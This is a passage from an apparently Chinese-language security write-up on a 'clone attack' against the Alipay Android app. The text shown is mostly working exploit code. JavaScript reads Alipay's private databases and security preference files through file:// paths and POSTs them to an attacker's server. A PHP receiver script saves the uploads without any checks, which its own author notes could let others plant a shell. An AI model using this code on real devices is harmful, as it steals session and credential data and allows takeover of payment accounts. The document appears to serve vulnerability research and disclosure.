 ```
            callback(filename, data);
        }
        reader.readAsDataURL(xhr.response);
    };
    xhr.open('GET', url);
    xhr.responseType = 'blob';
    xhr.send();
}

var files = Array(
    'databases/alipayclient.db',
    'databases/alipayclient.db-journal',
    'files/SGMANAGER_DATA2',
    'shared_prefs/alipay_tid_storage.xml',
    'shared_prefs/secuitySharedDataStore.xml'
);

var base_path = 'file:///data/data/com.eg.android.AlipayGphone/';


for(var each in files){
    var file_path = base_path + files[each]
    sendGetRequestForB64File(file_path,files[each],function(filename, response){
        sendPostRequest(
            server,
            'name=' + escape(filename) + '&' + 'content=' + escape(response),
            {"Content-type" : "application/x-www-form-urlencoded"},
            function(a){}
        );
    });
}
</script>
```

recv.php：

> 因为我是在内网接收的数据，所以测试时为了方便直接接收参数就写文件了
> 大佬们把这个脚本丢到自己服务器上测试的时候小心一点，可能会被别人写shell XD

```
<?php

function base64url_decode($data) { 
    return base64_decode(str_pad(strtr($data, '-_', '+/'), strlen($data) % 4, '=', STR_PAD_RIGHT)); 
} 

file_put_contents('/home/dlive/Desktop/exp/clone_attack/'.$_POST['name'], base64url_decode($_POST['content']));
```

攻击者将从被攻击者手机上窃取的文件拷贝到自己手机上：
